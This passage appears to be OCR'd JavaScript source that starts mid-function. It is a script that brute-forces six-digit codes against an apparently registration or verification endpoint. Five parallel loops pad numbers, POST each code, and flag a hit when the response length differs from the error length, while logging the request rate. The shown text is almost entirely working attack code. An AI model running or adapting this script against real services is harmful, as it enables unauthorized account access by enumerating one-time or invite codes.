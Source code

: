 ```JavaScript
    "method": "POST",
    "mode": "cors"
  })
  .then(res => res.text())
  .then(t => t.length);
}

/**
 * Pads a number with zeroes to a fixed length: pad(42, 4) => 0042
 * @param {number} num Number to pad
 * @param {number} size Desired size
 */
function pad(num, size) {
  let text = num.toString();
  while(text.length < size) {
    text = "0" + text;
  }
  return text;
}

let attempts = 0;
async function bulk(from, to) {
  for(let i = from; i <= to; i++) {
    const code = pad(i, 6);
    const size = await register(code);
    attempts++;

    if(size != ERROR_LENGTH) {
      console.log("!!!!!!!!!!! BINGO! !!!!!!!!!!!");
      console.log(code, size);
      process.exit(0);
    }
  }
}

setInterval(() => {
  console.log(attempts/10, "req/s", new Date().toISOString());
  attempts = 0;
}, 10000);

(async () => {
  const tasks = [
    bulk(0, 1000),
    bulk(1001, 2000),
    bulk(2001, 3000),
    bulk(3001, 4000),
    bulk(4001, 5000),
  ];

  await Promise.all(tasks);
  console.log("Done!");
})();
```
